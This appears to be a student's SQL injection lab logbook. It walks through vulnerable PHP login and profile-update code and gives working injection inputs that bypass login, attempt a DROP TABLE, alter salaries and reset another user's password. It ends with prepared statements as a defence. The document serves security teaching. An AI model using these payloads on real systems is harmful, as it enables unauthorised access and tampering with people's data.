


# SQL Injection LogBook

This logbook documents the exploration and findings in the SQL Injection lab. It aims to analyze the vulnerabilities, identify errors, and propose modifications to enhance system security against such attacks.

## Task 1

The initial task involves adapting to the environment using the MySQL command line:

```sh
mysql -u root -pdees
```

Followed by listing the tables:

```sh
show tables;
```


## Task 2

The focus is on a PHP file running on the server, handling user authentication:

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
```

The associated form:

<div align="center">
  
</div>

### Task 2.1 - Attack from webpage

Exploiting the vulnerability with a crafted input:

`username: admin'; -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partially connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

Executing a similar attack from the command line:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

This approach works and the justification is similar to task 2.1

### Task 2.3 - Append a new SQL statement

Attempting to add a new SQL statement:

`username: admin'; DROP TABLE credential; -- `


`password: <anything> `

This approach will lead to a query like this:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; DROP TABLE credential; -- and Password=’<anything>";
```

Explanation: The attempt fails due to the protection mechanism executing only the first query.

## Task 3

Examining PHP code for updating user profiles:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

The associated form:

<div align="center">
  
</div>

### Task 3.1 - Modify own salary

Crafting input for modifying own salary:

`nickname: <nickname>', salary = 1000000 WHERE nickname = <nickname>; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

With that, we reach the following sql code:

```sql
UPDATE credential SET
   nickname=’<nickname>’, salary = 1000000 WHERE nickname = <nickname>; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.2 - Reduce the Boby's salary

Crafting input for reducing Boby's salary:

`nickname: Boby', salary = 1 WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

We reach the following query:

```sql
UPDATE credential SET
   nickname=’Boby’, salary = 1 WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.3 - Modify other people’ password

For this example, assuming that we know that the password is hashed using the sha1 method, we can change the password manually. For instance, let's change the password of Boby to `banana`. If we consult [this site](http://www.sha1-online.com), we reach the hashed password, so we can see this:

`nickname: Boby', password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

```sql
UPDATE credential SET
   nickname=’Boby’, password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

## How to prevent this kind of attack

Here are some suggestations to make this kind of attacks more difficult to occur:

1. Use Parameterized Statements (Prepared Statements) to distinguish between SQL code and data:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
                        FROM credential
                        WHERE name=? AND Password=?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);

$stmt->execute();

$result = $stmt->get_result();
```

2. Implement input validation using regular expressions and other techniques.

